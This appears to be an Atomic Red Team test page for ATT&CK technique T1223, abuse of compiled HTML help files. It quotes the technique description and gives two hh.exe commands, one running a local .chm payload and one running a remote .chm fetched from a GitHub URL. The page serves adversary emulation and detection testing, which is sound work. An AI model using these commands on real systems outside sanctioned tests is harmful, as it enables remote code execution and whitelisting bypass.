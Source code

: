 ```yaml
---
published: false
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1223)
<blockquote>Compiled HTML files (.chm) are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)
<br/>
Adversaries may abuse this technology to conceal malicious code. A custom CHM file containing embedded payloads could be delivered to a victim then triggered by <a href="https://attack.mitre.org/techniques/T1204">User Execution</a>. CHM execution may also bypass application whitelisting on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- Atomic Test #1 - Compiled HTML Help Local Payload

- Atomic Test #2 - Compiled HTML Help Remote Payload


<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload
Uses hh.exe to execute a local compiled HTML Help payload.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| local_chm_file | Local .chm payload | path | C:\atomic-red-team\atomics\T1223\src\T1223.chm|

#### Run it with `command_prompt`!

```
hh.exe #{local_chm_file}
```
<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1223/src/T1223.chm|

#### Run it with `command_prompt`!

```
hh.exe #{remote_chm_file}
```
<br/>
